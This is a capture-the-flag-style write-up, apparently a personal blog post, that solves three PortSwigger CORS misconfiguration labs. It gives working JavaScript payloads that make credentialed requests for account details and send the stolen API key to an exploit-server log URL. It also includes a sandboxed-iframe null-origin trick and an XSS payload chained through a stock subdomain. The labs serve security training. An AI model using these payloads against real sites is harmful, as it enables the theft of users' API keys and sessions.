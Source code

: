 ```yaml
---
title: CORS - PortSwigger
date: 2022-6-15 00:00:00 +/-TTTT
categories: [PortSwigger]
tags: [PortSwigger, writeup, penetration testing, CORS]     # TAG names should always be lowercase
---
```


<br />

### Table of Contents

- [CORS vulnerability with basic origin reflection](#cors-vulnerability-with-basic-origin-reflection)
- [CORS vulnerability with trusted null origin](#cors-vulnerability-with-trusted-null-origin)
- [CORS vulnerability with trusted insecure protocols](#cors-vulnerability-with-trusted-insecure-protocols)

---

<br />

### [CORS vulnerability with basic origin reflection](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)

Goal : craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server.

- log in and access your account page.
- I saw this endpoint `/accountDetails` in the profile page source.

<img src="/assets/img/portswigger/cors/1_1.png" alt="cors" style="zoom:80%;" />

- go to `/accountDetails`, and the observe the `Access-Control-Allow-Credentials` header.

- Send the request to Burp Repeater, and resubmit it with the added header:

  ```javascript
  Origin: test.com
  ```

- Observe that the origin is reflected in the `Access-Control-Allow-Origin` header.

<img src="/assets/img/portswigger/cors/1_2.png" alt="cors" style="zoom:80%;" />

- In the browser, go to the exploit server and enter the following HTML

  ```javascript
  <script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','<your-lab-url>/accountDetails',true);
  req.withCredentials = true;
  req.send();
  
  function reqListener() {
     location='<your-exploit-server>/log?key='+this.responseText;
  };
  
  </script>
  ```

- Click **View exploit**. Observe that the exploit works - you have landed on the log page and your API key is in the URL.

- Go back to the exploit server and click **Deliver exploit to victim**.

- Click **Access log**, retrieve and submit the victim's API key to complete the lab.

```json
{  "username": "administrator",  "email": "",  "apikey": "SaCAyGSHgJD1QifqVNXAKr82XZKAra7S",  "sessions": [    "zLW0oQ69tCRLl2Dw3ZOu34JMgMPRa10k"  ]}
```

<br /><br />

---



### [CORS vulnerability with trusted null origin](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack)

Goal: craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server.

- log in and access your account page.

- go to `/accountDetails`, and the observe the `Access-Control-Allow-Credentials` header.

- Send the request to Burp Repeater, and resubmit it with the added header:

  ```json
  Origin: test.com
  ```

- notice that no thing happened with the `Access-Control-Allow-Origin` header. this means it performs whitelist checking on the provided origin

-  resubmit it with the null value `Origin: null`

- Observe that the origin is reflected in the `Access-Control-Allow-Origin` header.

<img src="/assets/img/portswigger/cors/2_1.png" alt="cors" style="zoom:80%;" />

- In the browser, go to the exploit server and enter the following HTML

  ```javascript
  <iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','<your-lab-url>/accountDetails',true);
  req.withCredentials = true;
  req.send();
  
  function reqListener() {
  location='<your-exploit-server>/log?key='+this.responseText;
  };
  </script>"></iframe>
  ```

  >the exploit exists in  sandbox iframe to be sent from null origin

- Click **View exploit**. Observe that the exploit works - you have landed on the log page and your API key is in the URL.
- Go back to the exploit server and click **Deliver exploit to victim**.
- Click **Access log**, retrieve and submit the victim's API key to complete the lab.

<br /><br />

---





### [CORS vulnerability with trusted insecure protocols](https://portswigger.net/web-security/cors/lab-breaking-https-attack)

Goal: craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server.

- log in and access your account page.

- go to `/accountDetails`, and the observe the `Access-Control-Allow-Credentials` header.

- Send the request to Burp Repeater, and resubmit it with the added header:

  ```
  Origin: test.com 
  OR
  Origin: null
  ```

- notice that no thing happened with the `Access-Control-Allow-Origin` header. this means it performs whitelist checking on the provided origin

- go to any product and click `check stock` , note that it responds from a `stock` subdomain

- write this subdomain in the `Origin` header 

- Observe that the origin is reflected in the `Access-Control-Allow-Origin` header

<img src="/assets/img/portswigger/cors/3_1.png" alt="cors" style="zoom:80%;" />



<br />

- now to exploit the CORS misconfiguration we need to find `XSS` in the stock subdomain or any other one

- Observe the two parameters in the stock subdomain , note that the  `productID` parameter is vulnerable to `XSS`
  ```bash
  http://stock.<your-lab-url>.web-security-academy.net/?productId=1%3cscript%3ealert(1)%3c%2fscript%3e2&storeId=2
  ```

  <br />

<img src="/assets/img/portswigger/cors/3_2.png" alt="cors" style="zoom:80%;" />

<br />

- now with `CORS+XSS` we can get the administrator api key by sending a request to the`stock` subdomain with the CORS exploit in the  `productID` parameter
-  go to the exploit server and enter the following HTML

```javascript
<script>
    document.location="http://stock.<your-lab-url>.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://.<your-lab-url>.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-<your-exploit-url>.web-security-academy.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

- Click **View exploit**. Observe that the exploit works - you have landed on the log page and your API key is in the URL.
- Go back to the exploit server and click **Deliver exploit to victim**.
- Click **Access log**, retrieve and submit the victim's API key to complete the lab.





---









